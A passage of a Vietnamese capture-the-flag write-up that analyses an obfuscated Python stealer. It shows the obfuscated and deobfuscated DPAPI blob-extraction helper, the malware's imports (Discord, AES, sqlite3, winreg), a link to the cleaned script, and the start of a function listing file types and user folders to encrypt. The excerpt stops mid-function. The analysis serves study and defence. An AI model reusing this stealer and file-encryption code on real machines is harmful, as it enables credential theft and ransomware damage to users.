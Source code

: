 ```
     (
      "cbData", wintypes.DWORD),
     (
      "pbData", POINTER(c_char))]


def OyKlniwfDd(blob_out):
    cbData = int(blob_out.cbData)
    pbData = blob_out.pbData
    buffer = ctypes.create_string_buffer(cbData)
    ctypes.cdll.msvcrt.memcpy(buffer, pbData, cbData)
    windll.kernel32.LocalFree(pbData)
    return buffer.raw


...
```
Thằng này cũng đã bị obfuscate, nhưng chỉ là đặt tên biến, tên hàm bằng những chuỗi ngẫu nhiên thôi, không quá phức tạp.
    
đây là 1 phần script khi đã được deobfuscate:
```
import discord
from discord.ext import commands
import os, zipfile, ctypes, ctypes.wintypes, winreg, base64, subprocess, requests, json, sqlite3, shutil
from Crypto.Cipher import AES
from ctypes import POINTER, Structure, byref, c_buffer, c_char, cdll, windll, wintypes

class DATA_BLOB(ctypes.Structure):
    _fields_ = [
     (
      "cbData", wintypes.DWORD),
     (
      "pbData", POINTER(c_char))]


def extract_blob_data(blob_out):
    cbData = int(blob_out.cbData)
    pbData = blob_out.pbData
    buffer = ctypes.create_string_buffer(cbData)
    ctypes.cdll.msvcrt.memcpy(buffer, pbData, cbData)
    windll.kernel32.LocalFree(pbData)
    return buffer.raw


...
```
script **stealer.py** đã deofuscate
https://github.com/SawG23/CTF-writeups/blob/main/FIACTF2025/stealer_cleaned.py 

có một số hàm quan trọng như 
* find_and_encrypt_user_files():
```
def find_and_encrypt_user_files():
    target_extensions = [
     '.png', '.pdf', '.jpg', '.docx', '.xlsx', '.xls', '.doc', '.pptx', 
     '.csv', 
     '.rtf', '.jpeg', '.html', '.odt', '.sql', '.txt', 
     '.xml', '.zip', 
     '.rar', '.7z', '.tar', '.gz', '.tgz']
    user_profile_path = os.environ["USERPROFILE"]
    target_directories = [
     os.path.join(user_profile_path, "Desktop"),
```